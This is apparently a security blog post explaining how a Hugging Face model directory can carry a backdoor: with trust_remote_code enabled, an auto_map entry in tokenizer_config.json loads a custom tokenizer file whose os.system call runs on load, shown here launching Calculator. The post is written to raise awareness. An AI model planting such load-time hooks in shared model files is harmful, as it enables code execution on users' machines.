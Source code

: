 ```yaml
---
layout: post
title:  Beginner Level - Backdoor llm through from_pretrained
tags: [llm,backdoor]
---
```


You cloned the code from github. And you downloaded the model file from some website. You run the demo code. Then you got calced.
This is the demo code taken from `***`. Is it safe to run the code?  

```python
tokenizer = AutoTokenizer.from_pretrained("./model-int4/", trust_remote_code=True)
```
It's safe, is it?
# How to backdoor through from_pretrained function?

if you add this code in the file `tokenization_demogpt.py` in the model directory, it will execute.  
```python
import os
os.system('/System/Applications/Calculator.app/Contents/MacOS/Calculator')
```
Let's examine the function.
[from_pretrained](https://github.com/huggingface/transformers/blob/05de038f3d249ce96740885f85fd8d0aa00c29bc/src/transformers/models/auto/tokenization_auto.py#L568)

```
trust_remote_code (`bool`, *optional*, defaults to `False`):
                Whether or not to allow for custom models defined on the Hub in their own modeling files. This option
                should only be set to `True` for repositories you trust and in which you have read the code, as it will
                execute code present on the Hub on your local machine.
```
If trust_remote_code is set to True, it will execute code on your local machine.  

If you read code, you can see that the code will load the `tokenizer_config.json`. [TOKENIZER_CONFIG_FILE = "tokenizer_config.json"](https://github.com/huggingface/transformers/blob/05de038f3d249ce96740885f85fd8d0aa00c29bc/src/transformers/tokenization_utils.py#L49)
```json
{
  "name_or_path": "******",
  "remove_space": false,
  "do_lower_case": false,
  "tokenizer_class": "DemoTokenizer",
  "auto_map": {
    "AutoTokenizer": [
      "tokenization_demogpt.DemoTokenizer",
      null
      ]
  }
}
```
Finally, it will read `auto_map` key. In the end, it will load `tokenization_demogpt`. Then our code will execute.


# What to do
Always check the model files. Load from trusted websites. Will you? Do you have the energy to do it?


## code
[register_for_auto_class](https://github.com/huggingface/transformers/blob/05de038f3d249ce96740885f85fd8d0aa00c29bc/src/transformers/modeling_utils.py#L3751)
[get_class_from_dynamic_module](https://github.com/huggingface/transformers/blob/05de038f3d249ce96740885f85fd8d0aa00c29bc/src/transformers/dynamic_module_utils.py#L378C15-L378C15)

